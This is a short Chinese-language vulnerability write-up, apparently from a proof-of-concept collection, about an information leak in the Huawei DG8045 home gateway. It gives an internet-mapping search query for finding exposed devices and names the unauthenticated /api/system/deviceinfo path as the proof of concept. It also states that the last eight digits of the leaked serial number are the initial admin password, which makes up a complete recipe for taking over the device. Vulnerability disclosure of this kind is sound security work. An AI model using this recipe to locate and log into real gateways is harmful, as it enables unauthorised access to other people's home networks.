 # Huawei DG8045 deviceinfo 信息泄漏漏洞

## 漏洞描述

Huawei DG8045 deviceinfo api接口存在信息泄漏漏洞，攻击者通过泄漏的信息可以获得账号密码登录后台

## 漏洞影响

```
Huawei DG8045
```

## 网络测绘

```
app="DG8045-Home-Gateway-DG8045"
```

## 漏洞复现

登录页面

![image-20220519181753641](images/202205191817718.png)

验证POC

```
/api/system/deviceinfo
```

![image-20220519181803482](images/202205191818539.png)

SerialNumber 后8位即为初始密码